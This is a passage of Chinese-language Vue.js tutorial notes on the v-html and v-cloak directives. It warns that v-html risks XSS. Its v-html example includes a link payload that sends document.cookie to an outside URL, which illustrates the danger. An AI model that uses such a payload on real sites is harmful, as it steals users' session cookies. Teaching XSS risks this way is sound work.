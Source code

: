     

#### 2.16.3.v-html指令

- v-html

  - 作用：向指定节点中渲染包含html结构的内容
  - 与插值语法的区别
    - v-html会替换掉节点中所有的内容，{{xxx}}则不会
    - v-html可以识别html结构
  - 严重注意：v-html有安全性问题
    - 在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击
    - 一定要在可信的内容上使用v-html，永不要用在用户提交的内容上

- ```html
  <div id="root">
      <div v-text="str"></div>
      <div v-html="str"></div>
      <div v-html="strA"></div>
  </div>
  
  <script>
      const vm = new Vue({
          el: "#root",
          data:{
              str:'<h2>Hello</h2>',
              strA:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>快来！</a>',
          },
      })
  </script>
  ```

    

#### 2.16.4.v-cloak指令

- v-cloak（没有值）

  - 本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性
  - 使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题

- ```html
  <style>
      [v-cloak]{
          display:none;
      }
  </style>
  
  <div id="root">
      <h2 v-cloak>{{name}}</h2>
      <!-- 引入Vue -->
      <script src="../js/vue.js"></script>
  </div>
  
  <script>
      const vm = new Vue({
          el: "#root",
          data:{
              name: 'JacobSu'
          },
      })
  </script>
  ```
